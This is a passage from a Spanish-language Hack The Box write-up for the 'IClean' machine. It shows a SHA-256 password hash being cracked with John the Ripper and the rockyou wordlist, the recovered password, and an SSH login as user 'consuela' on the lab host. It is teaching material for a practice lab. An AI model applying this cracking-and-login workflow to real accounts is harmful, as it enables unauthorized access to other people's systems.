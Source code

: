 Identifiqué que el hash de la contraseña del usuario es SHA-256, así que pude romperlo con John y luego iniciar sesión mediante SSH.


![](/assets/images/htb-writeup-IClean/hash.png)

```bash
┌──(root㉿kali)-[/home/kali]
└─# john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt creds.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
simple and clean (?)     
1g 0:00:00:00 DONE (2024-07-01 18:51) 1.960g/s 7388Kp/s 7388Kc/s 7388KC/s sisqosgirl..sidneyMC03
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh consuela@10.10.11.12
consuela@10.10.11.12's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Mon Jul  1 10:52:13 PM UTC 2024




Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
consuela@iclean:~$ whoami
consuela
```
